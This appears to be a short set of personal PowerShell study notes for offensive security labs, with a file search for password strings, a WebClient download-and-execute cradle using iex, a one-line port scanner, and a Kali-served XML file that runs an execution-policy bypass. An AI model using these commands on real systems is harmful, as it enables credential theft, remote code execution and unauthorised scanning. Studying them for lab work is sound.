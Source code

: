 ```powershell
sls = Select-String
example: ls -r <path> -File *.txt | %{ sls -Path $_ -Pattern pass* }
```

Module:
```powershell
C:\$Env:PsModulePath
all modules in this path are imported automatically

# Get-Command -Module <module name>
```

Using New-Object:
```powershell
$variable = New-Object System.Net.WebClient
$variable | gm   //gm = Get-Member
$address= "<web server/file>"
$path = "<full path/file>"
$variable.DownloadFile($address,$path)

iex $variable.DownloadString($address,$path)
# this will "download" the string of the file and the iex = Invoke-Expression will execute the string as a command
```

The cmdlets associated with the process:
```powershell
Get-Command *process* -CommandType cmdlet | Measure-Object
```

verbo "Set":
```powershell
(Get-Command -CommandType cmdlet | Sort-Object Verb | sls ^Set).Count
```

4 processo utilizando mais memoria:
```powershell
ps | Sort-Object -Property WS -Descending | Select-Object -Index 3
```

Portscan:
```powershell
1..1024 | %{echo ((new-object Net.Sockets.TcpClient).Connect("IP",$_)) "Port $_ is open"} 2>$null
```

Download:

Kali: open a webserver with a xml file:
```xml
<?xml version="1.0"?>
<command>
  <a>
    <execute>Set-ExecutionPolicy Bypass -Force -Scope CurrentUser</execute>
  </a>
  <b>
    <execute>Get-Process</execute>
  </b>
</command>
```
